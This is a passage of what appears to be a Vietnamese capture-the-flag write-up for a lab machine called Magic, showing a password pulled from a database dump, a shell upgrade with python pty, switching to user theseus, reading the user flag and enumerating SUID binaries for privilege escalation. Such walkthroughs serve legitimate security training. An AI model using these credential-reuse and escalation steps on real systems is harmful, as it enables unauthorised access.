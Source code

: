 ```
LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<SNIP>
```
Có một câu lệnh INSERT làm ta chú ý
```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
Chuyển sang user khác bằng lệnh su

![image](https://hackmd.io/_uploads/r1n_vFzcA.png)

Lỗi này xuất hiện vì khi sudo trong một môi trường không có quyền truy cập vào TTY (như khi chạy trong một script không tương tác hoặc qua một hệ thống tự động hóa), sudo không thể yêu cầu mật khẩu từ người dùng. sudo thường yêu cầu mật khẩu qua TTY để xác thực quyền truy cập.

Để khắc phục ta dùng lệnh
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@magic:/var/www/Magic$ su admin
su admin
No passwd entry for user 'admin'
www-data@magic:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic$ whoami
whoami

```
## Post-Exploit
```
theseus@magic:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
theseus@magic:~$ cat user.txt
cat user.txt
45bb545aacee94796**********
```
# Root flag
## Exploit
Sử dụng lệnh để tìm SUID: `find / -type f -perm -04000 -ls 2>/dev/null`

![image](https://hackmd.io/_uploads/HkvMzqG5A.png)

Ta sẽ dùng `/bin/sysinfo` để leo quyền
